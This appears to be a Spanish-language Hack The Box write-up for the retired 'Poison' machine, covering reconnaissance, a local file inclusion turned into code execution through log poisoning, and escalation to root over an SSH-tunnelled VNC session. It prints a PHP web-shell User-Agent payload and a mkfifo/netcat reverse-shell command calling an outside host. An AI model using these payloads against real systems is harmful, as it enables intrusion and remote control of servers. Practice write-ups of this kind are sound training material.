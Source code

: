 ```yaml
---
layout: post
title:  "OSCP Path ~ Poison de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada POISON siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, LFI, RCE, Burpsuite, PHP, RDP-file, Maquinas Retiradas, Writeup, Hacking
---
```


# Poison ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```
Lanzamos un pequeño fuzzing desde nmap:
```bash
# cat WebScan 
# Nmap 7.91 scan initiated Tue Jul 27 17:45:46 2021 as: nmap --script http-enum -p80 -oN WebScan 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up (0.041s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /info.php: Possible information file
|_  /phpinfo.php: Possible information file
```
Procedemos a lanzar un whatweb:
```bash
# cat Whatweb 
http://10.10.10.84:80 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[FreeBSD][Apache/2.4.29 (FreeBSD) PHP/5.6.32], IP[10.10.10.84], PHP[5.6.32], X-Powered-By[PHP/5.6.32]
```
 Procedemos a hechar un vistazo a la web
 Apuntamos a la web y vemos que es una pagina para testear scrips locales,
 no introducimos nada y presionamos el enter, nos saca que pide un archivo con atraves de variable file... `probamos un LFI`
 ```bash
 # curl -X GET "http://10.10.10.84/browse.php?file=../../../../../etc/passwd" 
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
"charix:*:1001:1001:charix:/home/charix:/bin/csh"
```
Enumeramos al `user:charix` y verificamos que tenemos un LFI. AHora procedemos a intentar pasasr el LFI a RCE buscando en la ruta /var/log/httpd-acces.log
```bash
 # curl -X GET "http://10.10.10.84/browse.php?file=/var/log/httpd-acces.log
 ```
 
 Procedemos a injecctar codigo PHP en el User Agent ya que tenemos acceso a la ruta `/var/log/httpd-access.log`
 ```bash
 GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
"User-Agent: <?php system($_GET['cmd']); ?>                                              "
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
 ```
 Verificamos que en la respuesta del lado del servidor se este ejecutando nuestro codigo `php`
 ```bash
 </b>:  system(): Cannot execute a blank command in <b>/var/log/httpd-access.log </b>
 ```
Procedemos a hacer una peticion web de la siguiente forma:
```bash
curl -s -X GET "10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
Y vemos que no nos funciona, asique procedemos a urlencodear el comando malicioso. Lo sustituimos en la anterior y procedemos a hacer la peticion.
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.0.0.1%201234%20%3E%2Ftmp%2Ff
```
Al ganar acceso al sistema, encontramos un archivo con una cadena en base64 encodeada como 13 veces minimo:
```bash
# cat decryp_password_bs64             
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```
Procedemos a montarnos un script para decodearlo a traves de un bucle:
```python3
#!/usr/bin/python3

from base64 import b64decode

pass_en = "cadena de arriba...azVHU2tkalJGbExWRlZTCmMxSkdjRFpOUkd4RVdub3dPVU5uUFQwSwo="

for i in range(13):
        pass_en = b64decode(pass_en)

print(pass_en)
```
Ejecutamos el script para ver el output:
```bash
# python3 decrypt.py    
b'Charix!2#4%6&8(0'
```
Creamos un archivo de credenciales:
```bash
user charix
pass Charix!2#4%6&8(0
```
# Ganando acceso por SSH
Con las credenciales obtenidas procedemos a intentar conectar por el servicio SSH
```bash
# ssh charix@10.10.10.84 
```
Accedemos correctamente al servicio SSH
Enumeramos el directorio home de charix y nos pasamos el archivo secret.zip a nuestra maquina
```bash
charix@Poison:~ % ls
secret.zip      user.txt
```
Sacamos la flag de `user.txt`
```bash
charix@Poison:~ % cat user.txt 
eaacdfb2d141b72a58923xxxxxxxxxxxx
```
# Escalada de privilegios
Procedemos a enumerar el sistema como siempre
```bash
charix@Poison:~ % ps -aux
root   529   0.0  0.9  23620  8868 v0- I    08:38    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/p
```
Encontramos un servicio `RDP de root`
Probamos a autenticarnos con un archivo al servicio RDP usando para ello `vcnviewer`

Unzipeamos el secret.zip ~ nos pide passwd ~ metemos la misma paswd de charix. Obtenemos un archivo secret que pinta no ser legible

Procedemos a tunelizar el puerto 5901 que es el servicio RDP atraves de ssh
```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
Procdemos a conectarnos al servicio RDP usando vncviewer usando un archivo como contraseña
```bash
"# vncviewer 127.0.0.1:5901 -passwd secret                          "    
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
``` 
Cnectamos correctamente y sacamos la flag de `root.txt`

Maquina Rooteada =)




